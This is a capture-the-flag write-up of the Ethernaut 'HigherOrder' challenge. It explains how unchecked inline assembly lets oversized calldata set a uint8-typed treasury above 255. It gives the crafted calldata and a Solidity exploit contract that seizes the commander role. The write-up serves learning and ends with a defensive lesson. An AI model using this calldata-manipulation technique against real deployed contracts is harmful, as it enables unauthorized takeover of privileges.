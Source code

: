 +++
date = '2024-10-23T01:22:21+05:30'
draft = false
title = 'HigherOrder'
categories=["Blockchain"]
series="Ethernaut"
tags=["Calldata Manipulation"]
+++

# Writeup for Higher Order

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.

Your objective is to become the Commander of the Higher Order! Good luck!

Things that might help:

- Sometimes, calldata cannot be trusted.
- Compilers are constantly evolving into better spaceships.

### Contract Explaination

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}

```

This Solidity code defines a contract with two state variables: `commander` of type **address** and `treasury` of type **uint256**.

```solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

The function `registerTreasury()` takes an argument of type **uint8** as input. It then loads the calldata starting from the 4th byte and assigns it to the `treasury` variable.

It starts from the fourth byte because the `0th byte` to the `3rd byte` (4 bytes) will be the function selector.

```solidity
function claimLeadership() public {
    if (treasury > 255) commander = msg.sender;
    else revert("Only members of the Higher Order can become Commander");
}
```

The function `claimLeadership()` checks whether the `treasury` value is greater than 255. If it is greater than 255, it sets the `commander` to `msg.sender`.

If the `treasury` value is less than or equal to 255, it reverts with an error message: "Only members of the Higher Order can become Commander.

### Exploit

Our goal is to become the commander. The only way we can become the commander is by setting the treasury value to greater than 255.

```solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```

The registerTreasury() fucntion takes an argument of type uint8. The max value of a uint8 is 255. So while calling registerTreasury() we won't be able to pass number more than 2555.

But if we make a low-level call then it won't check whether the data passes is a uint8 or not. Once we pass the value more than 255 by making a low-level call the challenge will be solved.

Now lets construct the calldata.

```bash
$ cast calldata "registerTreasury(uint8)" 255
```

It will give us `0x211c85ab00000000000000000000000000000000000000000000000000000000000000ff`.

Now we need make changes in calldata because we have sent argument as 255. We need to send more than 255. So let's add one more f before two f's.

The final calldata is `0x211c85ab0000000000000000000000000000000000000000000000000000000000000fff`.

Now lets write our Exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract ExploitHigherOrder{
    address HigherOrder;

    constructor(address _addr){
        HigherOrder=_addr;
    }

    function Expoit()public{
        bytes memory Calldata=hex"211c85ab0000000000000000000000000000000000000000000000000000000000000fff";
        (bool a,)=HigherOrder.call(Calldata);
        require(a,"Exploit Failed");
    }
}
```

Deploy the Exploit contract and call the Exploit() function. Once the call is done then call the claimLeadership() from console.

```javascript
> await contract.claimLeadership()
```

Once call this function the challenge will be solved. Now you can submit the instance.

That's it for this challenge hope you enjoyed this challenge.

### Key takeaways

We should be careful while using assembly because we need to handle all the edge cases for whatever logic we write in assembly. Instead of assembly, if we use Solidity, it will perform all checks and ensure that the treasury value will always be less than or equal to 255.

However, the Solidity compiler version greater than 0.8.0 doesn't have this exploit.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
